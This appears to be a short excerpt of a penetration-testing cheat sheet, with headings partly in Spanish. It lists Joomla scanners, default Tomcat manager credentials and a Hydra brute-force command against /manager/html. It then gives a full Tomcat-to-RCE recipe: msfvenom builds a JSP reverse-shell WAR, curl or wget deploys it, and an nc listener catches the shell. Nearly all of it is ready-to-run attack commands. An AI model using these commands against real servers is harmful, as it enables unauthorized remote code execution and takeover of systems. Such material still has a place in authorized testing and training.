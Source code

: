 #### Joomla

```shell
joomscan -u <URL>
./joomlavs.rb --url <URL> -a -v
```

#### Tomcat

##### Credenciales por defecto

```shell
The most interesting path of Tomcat is /manager/html, inside that path you can upload and deploy war files (execute code). But  this path is protected by basic HTTP auth, the most common credentials are:

admin:admin
tomcat:tomcat
admin:<NOTHING>
admin:s3cr3t
tomcat:s3cr3t
admin:tomcat
```

##### Fuerza bruta 

```shell
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> -f <IP> http-get /manager/html -vV -u
```

##### Tomcat a RCE

```shell
# Generate payload
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war

# Upload payload
Tomcat6 :
wget 'http://<USER>:<PASSWORD>@<IP>:8080/manager/deploy?war=file:shell.war&path=/shell' -O -

Tomcat7 and above :
curl -v -u <USER>:<PASSWORD> -T shell.war 'http://<IP>:8080/manager/text/deploy?path=/shellh&update=true'

# Listener
nc -lvp <PORT>

# Execute payload
curl http://<IP>:8080/shell/
```

#### WebDav

```shell
davtest -url <URL>
```
